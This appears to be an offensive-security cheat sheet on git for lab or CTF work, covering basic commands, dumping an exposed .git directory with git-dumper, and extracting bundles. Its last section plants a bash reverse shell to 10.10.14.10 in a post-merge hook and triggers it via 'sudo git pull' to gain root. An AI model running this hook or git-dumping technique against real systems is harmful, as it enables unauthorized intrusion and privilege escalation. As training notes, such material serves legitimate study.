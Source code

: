 ```yaml
---
title: "git"
date: 2024-6-28
tags: ["git", "git-dumper", "sudo", "privesc"]
---
```


---
### Basic Commands

<div>

```bash
# Show status
git status
```

```bash
# Reset the current branch to a previous commit
git reset --hard
```

```bash
# Show information about files
git ls-files --stage
```

```bash
# Show current branch
git branch
```

```bash
# Show commits
git log <BRANCH_NAME> --oneline
```

```bash
# Show diff, a and b are commit hash
# a is the older commit
git diff [a] [b]
```

```bash
# Show commit
git show <COMMIT_HASH>
```

</div>

<br>

---

### Git Tools

{{< tab set1 tab1 active >}}git-dumper{{< /tab >}}
{{< tab set1 tab2 >}}git-bundle{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```bash
git-dumper http://10.10.11.10/.git result/
```

</div>

<small>*Ref: [Download git-dumper](https://github.com/arthaud/git-dumper)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```bash
# List all bundles
find . -type f -exec file {} \;
```

```bash
# Get bundle
git clone -b master @hashed/ab/cd/<HASH>.bundle
```

</div>

{{< /tabcontent >}}

<br>

---

### SUDO

<div>

```bash
# Copy target project
cp -r /var/www/html/project .
```

```bash
# Create a malicious post-merge
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.10/1337 0>&1' > ./project/.git/hooks/post-merge
```

```bash
# Run
sudo /usr/bin/git pull
```

</div>

<small>*Note: Make changes to the project to make the pull work*</small>

<br>